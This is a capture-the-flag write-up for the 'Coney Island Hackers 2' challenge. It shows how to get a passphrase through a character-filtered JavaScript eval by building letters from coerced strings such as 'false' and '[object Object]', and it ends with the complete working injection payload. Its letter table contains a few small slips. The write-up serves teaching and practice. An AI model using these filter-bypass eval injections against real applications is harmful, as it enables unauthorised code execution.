




## Challenge

Coney Island Hackers are back!

They changed the passphrase of their secret web portal to: coneʸisland.

However, they implemented some protection:

`letters and some special characters are not allowed, maximum length of the string entered is 75`

http://ch.hackyeaster.com:2302

Note: The service is restarted every hour at x:00.

**Hint:** `eval`

## Solution

We get a website with a form where we need to enter the password:



We are given the password (coneʸisland), but can't just enter it due to filters



We are not allowed to use a bunch of characters, including letters, `_`, `/`, and `$`

Let's look at the source

```html
<html>
  <head>
    <title>Coney Island Hackers</title>
    <link rel="stylesheet" href="https://unpkg.com/purecss@2.0.6/build/pure-min.css" integrity="sha384-Uu6IeWbM+gzNVXJcM9XV3SohHtmWE+3VGi496jvgX1jyvDTXfdK+rfZc8C1Aehk5" crossorigin="anonymous" />
    <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/font-awesome/4.0.3/css/font-awesome.css" />
    <link rel="stylesheet" href="styles.css" />
  </head>
  <body>
    <div class="splash-container">
      <div class="splash">
        
        <h1 class="splash-head smaller">Coney Island Hackers 2</h1>
        <p class="splash-subhead"></p>
        <div class="green">enter passphrase to enter</div>
        <form role="form" method="GET" action="/">
          <div class="form-group"></div>
          <label for="passphrase"></label>
          <input class="form-control" id="name" type="text" placeholder="passphrase" name="passphrase" />
          <button class="pure-button pure-button-primary" type="submit" name="form">
            Login
          </button>
        </form>
        <p></p>
      </div>
    </div>
  </body>
</html>
```

There is nothing much in the source, so it seems like we will have to find a creative way to input the password

If we input `2+2`, we get the message `invalid expression`


And the hint for this challenge was `eval`, so clearly our input is going into an eval call

We could use [JSfuck](http://www.jsfuck.com/#) to pass in our password without using letters, but this generates strings that are way longer than our limit of 75 characters




In javascript, we can get some letters in other ways


``` javascript
// "true"
!0+'';

// "false"
!1+'';

// "[object Object]"
{}+'';

// "undefined"
[][1]+'';

// "Infinity" yeilds: y
1/0+'';
```

We cannot use the last expression because `/` is disallowed, but we don't need a proper y anyway.

So we can get all characters in the strings `true`, `false`, `undefined`, `[object Object]`

So this is what we can get without using any letter characters are:

```
a = (!1+'')[1]     // "false"[1]
b = ({}+'')[2]     // "[object Object]"[2]
c = ({}+'')[5]     // etc
d = ([][1]+'')[2]
e = (!1+'')[4]
f = (!1+'')[0]
g
h
i = (1/0+'')[5]
j = ([]+{}+'')[3]
k
l = (!1+'')[2]
m
n = (1/0+'')[1]
o = ({}+'')[1]
p
q
r = (!0+'')[1]
s = (!1+'')[3]
t = (!0+'')[0]
u = (!0+'')[2]
v
w
x
y = (1/0+'')[y]  // cannot use because / character disallowed
```

That covers all the characters we need, but this would still be too many characters since it needs about 10 characters per letter and we also need to concatenate them together with `+` symbols..

so let's create a variable containing all the letters we need once, then accessing them as we need. We cannot use ascii letters for variable name, so we use `ß`

```javascript
ß=''+[][1]+!1+{};  // "undefinedfalse[object Object]"

// coneʸisland
ß[19]+ß[15]+ß[1]+ß[3]+'ʸ'+ß[5]+ß[12]+ß[11]+ß[10]+ß[1]+ß[2]
```

So we enter the following string in the password box, and get our flag!

`ß=''+[][1]+!1+{};ß[19]+ß[15]+ß[1]+ß[3]+'ʸ'+ß[5]+ß[12]+ß[11]+ß[10]+ß[1]+ß[2]`




Note: first we used `ß=''!1++[][1]+{};  // "falseundefined[object Object]"` (different order of the substrings), but ended up 1 character over the limit because we needed a 2-digit index once more often than in the real solution, grrr!


